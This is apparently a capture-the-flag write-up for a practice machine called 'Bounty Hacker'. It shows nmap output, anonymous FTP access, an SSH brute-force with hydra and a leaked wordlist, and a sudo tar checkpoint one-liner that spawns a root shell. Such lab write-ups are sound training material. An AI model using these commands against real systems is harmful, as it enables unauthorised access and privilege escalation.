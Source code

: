 # Bounty Hacker

### Living up to the title.
Nmap scan shows ports 21,22,80 open:

      PORT   STATE SERVICE VERSION
      21/tcp open  ftp     vsftpd 3.0.3
      | ftp-anon: Anonymous FTP login allowed (FTP code 230)
      |_Can't get directory listing: TIMEOUT
      | ftp-syst: 
      |   STAT: 
      | FTP server status:
      |      Connected to ::ffff:10.11.85.53
      |      Logged in as ftp
      |      TYPE: ASCII
      |      No session bandwidth limit
      |      Session timeout in seconds is 300
      |      Control connection is plain text
      |      Data connections will be plain text
      |      At session startup, client count was 3
      |      vsFTPd 3.0.3 - secure, fast, stable
      |_End of status
      22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
      |   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
      |_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Site doesn't have a title (text/html).

FTP server allows anonymous login and contains two files `locks.txt` is a wordlists of possible password, while `task.txt` contains the following: <br />
![image](https://github.com/user-attachments/assets/87765352-9b2e-4890-994e-62136ce73662)<br />
I try to bruteforce ssh login with `lin` using the provided wordlist: `hydra -l lin -P locks.txt 10.10.26.125 ssh` and it works. I have acess to lin's ssh account.<br />
For privesc, if I run `sudo -l` I get: <br />
![image](https://github.com/user-attachments/assets/24cd0ff7-1f3f-4a2e-835a-56f04e5c9b3e)<br />
The exploit for tar can be found on [gtfobins](https://gtfobins.github.io/gtfobins/tar/#sudo). Just run `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` to become root. 

